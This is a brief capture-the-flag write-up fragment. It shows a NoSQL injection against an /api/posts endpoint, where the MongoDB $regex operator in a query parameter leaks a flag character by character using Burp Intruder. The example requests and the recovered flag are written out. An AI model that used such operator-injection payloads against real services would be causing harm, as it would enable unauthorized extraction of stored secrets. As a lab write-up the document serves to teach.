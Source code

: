 <img src="images/intruder.PNG" width="50%">

i.e. (`§§` is substituted with every character in `[a-zA-Z0-9]`):

```GET /api/posts?flag[$regex]=flag{§§.*}```
- Returns the redacted flag response for only character 'n'

```GET /api/posts?flag[$regex]=flag{n§§.*}```
- Returns the redacted flag response for only character '0'

```GET /api/posts?flag[$regex]=flag{n0§§.*}```

...

```GET /api/posts?flag[$regex]=flag{n0SQLn0Vulns§§.*}```

And we have captured the flag! `flag{n0SQLn0Vulns}`
